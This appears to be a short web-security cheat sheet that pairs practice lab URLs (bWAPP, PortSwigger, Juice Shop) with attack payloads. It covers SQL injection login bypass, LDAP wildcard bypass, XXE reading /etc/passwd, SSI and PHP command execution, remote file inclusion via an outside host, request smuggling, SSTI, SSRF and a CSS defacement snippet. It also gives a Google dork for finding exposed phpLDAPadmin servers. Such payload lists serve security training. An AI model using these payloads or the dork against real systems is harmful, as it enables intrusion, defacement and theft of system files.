 # Cross Site Scripting (Reflected & Stored)
Lab : http://testphp.vulnweb.com/index.php
Defacement : 
<style>
div {
 background-image: url('http://www.deepeddy.net/img/deepeddyfish.gif');
}
</style>

# HTTP Verb Tampering
Lab : http://challenge01.root-me.org/web-serveur/ch8/

# HTTP Parameter Pollution
Lab : https://bwapp.hakhub.net/hpp-1.php
Payload : &movie=2

# SQL Injection
Lab : https://juice-shop.herokuapp.com/#/login
Payload : admin' or '1'='1'--

# LDAP Injection

Google Dork - 
intitle:"phpLDAPadmin" inurl:cmd.php

Login Bypass - 
user=*
password=*
--> (&(user=*)(password=*))

# XML Injection
Lab : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
Payload :
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
&xxe;

# XPATH Injection
Lab : https://bwapp.hakhub.net/xmli_1.php
Payload : ' or id='1

# SSI Injection 
Payload : <!--#exec cmd="OS_COMMAND" -->

# Code Injection
Lab : https://bwapp.hakhub.net/phpi.php
Payload : system("ls")

# Local File Inclusion/ Remote File Inclusion
Lab: https://bwapp.hakhub.net/rlfi.php
http://zero.webappsecurity.com:8080/help.html?topic=http://bxss.me/t/fit.txt%3F.html

# Command Injection
Lab : https://bwapp.hakhub.net/commandi.php

# HTTP Smuggling
Lab : https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses
Payload : 
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X

# Host Header Injection
Lab : https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning

# Server-side Template Injection
Lab : https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic
Payload : <%= 7*7 %> 

# Server-Side Request Forgery
Lab : https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost
Payload : http://localhost/admin
